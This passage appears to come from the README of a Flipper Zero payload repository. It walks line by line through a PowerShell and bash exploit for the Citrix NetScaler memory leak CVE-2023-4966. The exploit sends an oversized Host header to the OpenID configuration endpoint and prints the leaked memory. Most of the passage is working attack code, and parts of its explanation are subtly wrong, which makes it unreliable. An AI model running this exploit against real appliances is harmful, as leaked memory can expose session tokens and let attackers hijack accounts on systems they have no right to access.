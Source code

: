 ```powershell
$headers = "-H 'Host:$header_value'"
```

Here, a variable `$headers` is created as a hashtable containing the HTTP header. In this case, only the "Host" header is used, with the value from `$header_value`.

```powershell
$headers = @{ 'Host' = $header_value }
```

This line defines the variable `$uri`, which contains the target URL for the HTTP request. Note that "#HOSTNAME" is a DuckyScript variable that should be replaced with the actual value before executing the script (see the [Settings](#settings) section).

```powershell
$uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

Here, the HTTP request to the specified URL is executed using the GET method and with the headers defined in the `$headers` variable. The result of the request is stored in the `$response` variable.

```powershell
$response = Invoke-RestMethod -Uri $uri -Headers $headers -Method GET -TimeoutSec 10
```

This `if` statement checks if the first three characters of the HTTP response in the `$response` variable are equal to "200," indicating a successful HTTP response.

```powershell
if ($response.Substring(0, 3) -eq "200")
```

If the preceding condition is true, some messages are printed to indicate the beginning of the output.

```powershell
Write-Host "--- Dumped memory ---"
$response.Substring(131050)
Write-Host "--- End ---"
```

If the initial condition of the `if` statement is not met, a message is printed, indicating that the machine is not vulnerable.

```powershell
Write-Host "Could not dump memory"
```

## Payload Description Linux [_Go to the GNU-Linux version_](https://github.com/aleff-github/my-flipper-shits/tree/main/GNU-Linux/Incident_Response/Exploit_Citrix_NetScaler_ADC_and_Gateway_through_CVE-2023-4966)

This line sets the `header_value` variable to a string containing 24,576 'a' characters. It uses the `yes` command to repeatedly output 'a' and `head` to limit it to 24,576 lines. The `tr` command is used to remove any newline characters, resulting in a long string of 'a's.

```bash
header_value=$(yes a | head -n 24576 | tr -d '\n')
```
